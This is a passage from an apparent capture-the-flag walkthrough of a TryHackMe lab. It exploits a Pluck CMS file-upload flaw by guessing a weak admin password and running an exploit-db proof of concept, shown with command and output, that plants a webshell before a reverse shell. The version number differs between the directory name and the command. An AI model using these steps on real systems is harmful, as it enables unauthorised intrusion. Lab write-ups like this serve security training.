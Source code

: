This directory has directory listing enabled and we can identify a new directory named `pluck-4.1.13`. Pluck is a CMS and we can see the version number in the directory's name. We can Google this version number to see if the is any public exploit.
![](/assets/img/posts/walthrough/tryhackme/2024-10-27-dreaming/vuln-dis.png)

This version number is vulnerable to an authenticated file upload vulnerability. The pluck CMS has no default credentials as they are set during installation. If we try to log in using common default passwords, we will find that the admin portal is protected by the common weak password p******d.
![](/assets/img/posts/walthrough/tryhackme/2024-10-27-dreaming/login.png)

## Exploitation

Now that we have the admin password, we can download the POC from exploit db and run it against the target to upload a web shell. 
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Dreaming/Misc File]
└─$ python3 poc.py 10.10.162.34 80 <REDACTED> /app/pluck-4.7.13

Authentification was succesfull, uploading webshell                                                      
Uploaded Webshell to: http://10.10.162.34:80/app/pluck-4.7.13/files/shell.phar 
```

We can access the web shell using the link given to us by the POC. We can obtain a reverse shell using the web shell first we have to start a listener on our attack host.